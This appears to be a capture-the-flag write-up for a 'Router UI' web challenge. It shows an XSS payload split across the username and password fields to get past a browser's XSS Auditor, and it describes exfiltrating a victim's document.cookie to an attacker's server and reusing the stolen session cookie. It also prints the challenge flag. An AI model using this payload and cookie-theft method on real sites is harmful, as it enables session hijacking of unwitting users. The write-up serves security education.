# Router UI

It was really easy to find out that we can inject XSS payload in username and password, however it was much harder to bypass XSS Auditor.
I tried a lot of payloads (either my own or copied from the Internet), but it didn't work.
There was only one strange thing about this website. Our username and password were separated by two slashes.
It looks as if it was part of url scheme. If type first half of our payload as nickname and the second part as the password hopefully it will work.
```
login:<script src=https:
password:[YOURDOMAIN]/exploit.js></script>
```
The above payload finally executed JS in chrome (I tried also with SVG and other tags, but I had some problems with them).
`exploit.js` simply redirects the browser to our website and passes document.cookie as query string.
`log.php` function saves all request uris to file.
We can only login via POST, so we need to create the website which will automaticly submit the form [website.html](website.html).
We have to send link to this website via email to wintermuted. He'll almost immediately visit it and we'll get his cookie.
Please note that you'll need HTTPS server for this challenge (you can use let's encrypt certificate). I tried with plain HTTP, but browser refused to execute it.
When we open log.txt on our server (hopefully) we'll see:
```
/log.php?flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja
```
Set this cookie in your browser and visit https://router-ui.web.ctfcompetition.com/.
In the source you can find the flag.

Flag: `CTF{Kao4pheitot7Ahmu}`